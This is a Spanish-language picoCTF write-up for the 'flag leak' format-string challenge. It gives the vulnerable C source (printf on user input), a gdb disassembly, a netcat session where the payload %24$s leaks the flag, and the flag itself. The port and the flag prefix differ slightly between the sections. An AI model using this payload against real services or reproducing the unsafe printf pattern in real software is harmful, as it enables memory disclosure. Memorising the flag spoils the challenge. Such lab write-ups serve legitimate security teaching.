 
# flag leak

## Descripcion
Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/93/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/93/vuln.c). And connect with it using:`nc saturn.picoctf.net 57797`
## Pistas
Format Strings
## Solucion
Se nos da un programa junto con su codigo fuente: 
```bash()
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```

usamos gdb para ver el codigo assembly:
```bash()
Dump of assembler code for function vuln:
   0x08049333 <+0>:     endbr32
   0x08049337 <+4>:     push   %ebp
   0x08049338 <+5>:     mov    %esp,%ebp
   0x0804933a <+7>:     push   %ebx
   0x0804933b <+8>:     sub    $0xc4,%esp
   0x08049341 <+14>:    call   0x80491f0 <__x86.get_pc_thunk.bx>
   0x08049346 <+19>:    add    $0x2cba,%ebx
   0x0804934c <+25>:    sub    $0x8,%esp
   0x0804934f <+28>:    push   $0x40
   0x08049351 <+30>:    lea    -0x48(%ebp),%eax
   0x08049354 <+33>:    push   %eax
   0x08049355 <+34>:    call   0x80492b6 <readflag>
   0x0804935a <+39>:    add    $0x10,%esp
   0x0804935d <+42>:    sub    $0xc,%esp
   0x08049360 <+45>:    lea    -0x1f9c(%ebx),%eax
   0x08049366 <+51>:    push   %eax
   0x08049367 <+52>:    call   0x80490f0 <printf@plt>
   0x0804936c <+57>:    add    $0x10,%esp
   0x0804936f <+60>:    sub    $0x8,%esp
   0x08049372 <+63>:    lea    -0xc8(%ebp),%eax
   0x08049378 <+69>:    push   %eax
   0x08049379 <+70>:    lea    -0x1f6d(%ebx),%eax
   0x0804937f <+76>:    push   %eax
   0x08049380 <+77>:    call   0x8049180 <__isoc99_scanf@plt>
   0x08049385 <+82>:    add    $0x10,%esp
   0x08049388 <+85>:    sub    $0xc,%esp
   0x0804938b <+88>:    lea    -0x1f67(%ebx),%eax
   0x08049391 <+94>:    push   %eax
   0x08049392 <+95>:    call   0x8049120 <puts@plt>
   0x08049397 <+100>:   add    $0x10,%esp
   0x0804939a <+103>:   sub    $0xc,%esp
   0x0804939d <+106>:   lea    -0xc8(%ebp),%eax
   0x080493a3 <+112>:   push   %eax
   0x080493a4 <+113>:   call   0x80490f0 <printf@plt>
   0x080493a9 <+118>:   add    $0x10,%esp
   0x080493ac <+121>:   sub    $0xc,%esp
   0x080493af <+124>:   push   $0xa
   0x080493b1 <+126>:   call   0x8049170 <putchar@plt>
   0x080493b6 <+131>:   add    $0x10,%esp
   0x080493b9 <+134>:   nop
   0x080493ba <+135>:   mov    -0x4(%ebp),%ebx
   0x080493bd <+138>:   leave
   0x080493be <+139>:   ret
End of assembler dump.
(gdb) 

```
vemos de nuevo que tendra errores de segmentacion. el problema es encontrar cuantos caracteres exactos.
Despues de muchos intentos vemos que el erros esta en lugar 24. y usamos %24$s.

```bash()
┌──(kali㉿kali)-[~/notas-hacking/PicoCTf/binary/FlagLeak]
└─$ nc saturn.picoctf.net 64176
Tell me a story and then I'll tell you one >> %24$s
Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}

```

## Bandera

picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}

## Notas adicionales

| comando | descripcion

## Referencias

